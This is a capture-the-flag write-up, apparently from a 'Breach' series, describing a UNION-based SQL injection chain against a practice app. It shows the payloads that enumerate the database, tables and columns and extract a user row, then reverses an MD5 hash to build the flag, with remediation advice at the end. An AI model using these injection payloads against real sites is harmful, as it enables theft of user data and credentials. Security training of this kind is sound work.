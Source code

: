 # Breach: Full SQL Enumeration and Flag Reconstruction via Hash Reversal

## Discovery & Exploit

This challenge involved a multi-step SQL injection process starting with a simple condition:

``0=0``

This returned 4 users, one of whom had the names:

``First name: Flag``  
``Surname: GetThe``

We began enumeration using a classic UNION SELECT injection:

**Step 1 – Current Database Name**
``0=0 UNION SELECT database(), null--``  
→ Revealed: `Member_Sql_Injection`

**Step 2 – Table Enumeration**
``0=0 UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema=CHAR(...)--``  
→ Found table: `users`

**Step 3 – Column Enumeration**
``0=0 UNION SELECT column_name, null FROM information_schema.columns WHERE table_name=CHAR(117,...) AND table_schema=CHAR(...)--``  
→ Columns found:  
`user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

**Step 4 – Data Extraction**
We then queried the suspected user row with:

``0=0 UNION SELECT first_name, column FROM users--``

This gave us:

- `user_id = 5`
- `first_name = Flag`
- `last_name = GetThe`
- `Commentaire = Decrypt this password -> then lower all the char. Sh256 on it and it's good !`
- `countersign = 5ff9d0165b4f92b14994e5c685cdce28`

**Step 5 – Hash Decoding**

The `countersign` value was an MD5 hash. Using a public hash lookup service:

→ `5ff9d0165b4f92b14994e5c685cdce28` = `FortyTwo`  
→ Lowercase: `fortytwo`  
→ SHA256 of `fortytwo` =  
`10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

**This is our final flag.**

## Vulnerability Details

This vulnerability demonstrates a full chain of **UNION-based SQL injection**, allowing the attacker to:

- Discover the database name
- Enumerate tables and columns
- Extract rows from sensitive tables
- Rebuild hidden secrets through hash decoding

Such attacks are possible when user input is directly injected into SQL statements without proper escaping or parameterization.

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks
- https://md5.gromweb.com/

## Remediation

1. Always use parameterized queries or prepared statements.
2. Do not expose database errors in the frontend.
3. Apply the principle of least privilege on database accounts.
4. Sanitize and validate all user input.
5. Monitor for suspicious queries and implement rate limiting.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../Breach08_*/Ressources/writeup.md">← Previous: Breach08</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../Breach10_*/Ressources/writeup.md">Next: Breach10 →</a></td>
  </tr>
</table>